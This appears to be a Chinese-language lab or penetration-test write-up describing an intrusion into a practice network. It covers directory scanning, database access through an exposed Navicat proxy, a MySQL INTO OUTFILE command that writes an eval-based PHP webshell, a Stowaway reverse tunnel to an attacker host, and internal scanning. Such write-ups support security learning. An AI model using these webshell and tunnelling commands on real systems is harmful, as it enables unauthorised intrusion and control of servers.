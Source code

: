 # 外网打点

外网：10.70.0.30

![image-20230312162901877](images/1.png)

先对这个IP做一个信息收集

![image-20230312162921230](images/2.png)

扫到了两个看起来有用的文件（这是用dirb才能扫到，我的dirsearch的字典里没有这个）

![image-20230312163024846](images/3.png)

![image-20230312163706711](images/4.png)

来看看这两个文件是什么吧

![image-20230312163047636](images/5.png)

sql.conf是mysql的端口和密码

![image-20230312163105279](images/6.png)

proxy.php是一个navicat的代理，可以直接去连上本地的mysql

直接用navicat去连接，连接的时候使用http代理

<img src="images/14.png" alt="image-20230312163330746" style="zoom:50%;" />

<img src="images/15.png" alt="image-20230312163429326" style="zoom:50%;" />

![image-20230312163441972](images/7.png)

连上了数据库，看看可不可以直接select into outfile写文件

```
show global variables like '%secure%';

set global secure_file_priv='';
/var/lib/mysql-files/
```

![image-20230312163556588](images/8.png)

securl_file_priv不为空，发现/var/www/html是可写的，直接用mysql写webshell到web目录

```
SELECT "<?php phpinfo();@eval($_POST[1]);?>" INTO OUTFILE "/var/www/html/shell.php";
```

![image-20230312163820107](images/9.png)

直接蚁剑连上去，通过插件上线msf

![image-20230508183258305](images/10.png)

# socks代理

这里我选择用stowaway

```
./admin -l 9999 -s DawnT0wn
```

agent端

```
./linux_x64_agent -c 10.70.0.222 -s DawnT0wn
```

![image-20230508183356909](images/11.png)

![image-20230508183425313](images/12.png)

# 内网信息收集

传了个fscan上去

![image-20230508183508415](images/13.png)

扫到192.168.58.21有thinkphp的洞

